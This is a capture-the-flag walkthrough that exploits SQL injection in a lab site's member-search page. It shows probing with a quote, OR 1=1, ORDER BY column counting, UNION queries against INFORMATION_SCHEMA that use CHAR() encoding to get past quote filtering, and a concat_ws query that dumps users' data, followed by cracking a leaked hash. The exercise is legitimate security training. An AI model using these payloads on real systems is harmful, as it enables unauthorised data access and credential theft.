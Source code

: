 
in page : http://machineURL/?page=member 

you will find an input field to search for a member by ID

you can retrieve the member details by intering a number in the input field

one of the ways to detect SQL injection is to submit a quote
```
 ' 
``` 
submiting this quote will return this error 
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'' at line 1 
```
with that output you can be cofident that this is a vulnerable payload
you can also try inputs like 

```
OR 1=1 to retrive the whole list of membert
notice using this or we get a user named flag with surname GetThe
```

next, we want to retrieve all the tables, we can do that using this query :

```
1 union SELECT null, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

```

note: in order for union to succseed we need two conditions :

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

to check for how many columns the original query ruturns, you can test is using ORDER BY clauses and incrementing the specified column index until an error occurs like this :
```
ORDER BY 1--
ORDER BY 2--
ORDER BY 3--
etc.
```

getting the output of all the talbles, notice a users table, thats our baby

we send another query to the database to get all the column names for the users table

```
1 union SELECT null , COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = CHAR(0x75, 0x73, 0x65, 0x72, 0x73)
```

notice that we have Represented the users as CHAR(0x75, 0x73, 0x65, 0x72, 0x73)

that is because whenever we use some kind of quoted input we get a database error, that is propably due the the website implementing some security michanism

with that we get all the users coulmn names so we can construct a query to get all the data all the users

and we do that using this command : 
```
1 union select null, concat_ws(CHAR(124),user_id, first_name, town, country, planet, Commentaire, countersign) from users
```
that gives us all the column values in the second column (surname) separated by | (char(124))

```
5|Flag|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28
```

you decrypt 5ff9d0165b4f92b14994e5c685cdce28 and you get FortyTwo
lowering all the letters and sh256 on it and we get the flag




